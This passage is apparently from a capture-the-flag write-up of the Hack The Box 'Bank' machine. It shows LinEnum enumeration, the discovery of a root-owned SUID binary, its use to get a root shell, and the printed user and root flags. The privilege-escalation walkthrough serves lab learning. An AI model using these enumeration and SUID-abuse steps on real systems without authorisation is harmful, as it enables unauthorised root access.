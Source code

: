 Launch it :

```
bash LinEnum.sh | tee results.txt
```

Looking through the results multiple times, I notice this line which stands out :

```
[-] SUID files:
-rwsr-xr-x 1 root root 112204 Jun 14  2017 /var/htb/bin/emergency
```

So I tried to ue it :

```
www-data@bank:/tmp$ /var/htb/bin/emergency
# whoami
root
```

And there I was root ! Now let's read the flags.

## Flags

------

### User.txt

```
# cat /home/chris/user.txt
37c97f8609f361848d8872098b0721c3
```

### Root.txt

```
# cat /root/root.txt
d5be56adc67b488f81a4b9de30c8a68e
```